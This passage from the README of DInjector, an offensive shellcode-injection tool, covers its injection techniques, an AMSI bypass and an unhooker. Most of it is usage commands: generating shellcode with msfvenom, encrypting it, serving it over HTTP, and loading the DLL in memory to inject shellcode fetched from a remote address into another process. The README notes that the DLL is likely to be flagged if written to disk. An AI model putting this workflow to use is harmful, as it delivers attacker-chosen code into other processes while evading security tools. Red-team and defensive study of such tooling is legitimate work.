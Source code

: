     + [RemoteThreadContext](#remotethreadcontext)
    + [ProcessHollowing](#processhollowing)
    + [ModuleStomping](#modulestomping)
    + [Utils](#utils)
      - [AM51](#am51)
      - [SpawnProcess](#spawnprocess)
      - [Unhooker](#unhooker)
  * [Credits](#credits)

## Basic Usage

1. Compile the project in Visual Studio (1) or via [OffensivePipeline](https://github.com/snovvcrash/OffensivePipeline) (2):

```console
PS (1) > git clone https://github.com/snovvcrash/DInjector.git
PS (1) > cd DInjector/DInjector
PS (1) > devenv /build Release DInjector.sln
PS (1) > ls .\bin\Release\DInjector.dll

PS (2) > curl https://github.com/snovvcrash/OffensivePipeline/releases/download/v0.8.2/OffensivePipeline_v0.8.2_DInjector.zip -o OffensivePipeline.zip
PS (2) > Expand-Archive .\OffensivePipeline.zip -DestinationPath .\OffensivePipeline
PS (2) > cd OffensivePipeline
PS (2) > .\OffensivePipeline.exe t DInjector
PS (2) > ls .\Output\DInjector_*\DInjector.dll
```

2. Generate a shellcode of your choice:

```console
~$ msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f raw -o shellcode.bin
```

3. [Encrypt](encrypt.py) the shellcode:

```console
~$ ./encrypt.py shellcode.bin -p 'Passw0rd!' -o enc
```

4. Serve the encrypted shellcode:

```console
~$ sudo python3 -m http.server 80
```

5. Use the PowerShell download [cradle](/cradle.ps1) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

:warning: The assembly will very likely be flagged if put on disk!

Test it locally with PowerShell:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\DInjector.dll")
$assem = [System.Reflection.Assembly]::Load($bytes)
[DInjector.Detonator]::Boom("remotethread /sc:http://10.10.13.37/enc /p:Passw0rd! /pid:1337 /am51:True")
```
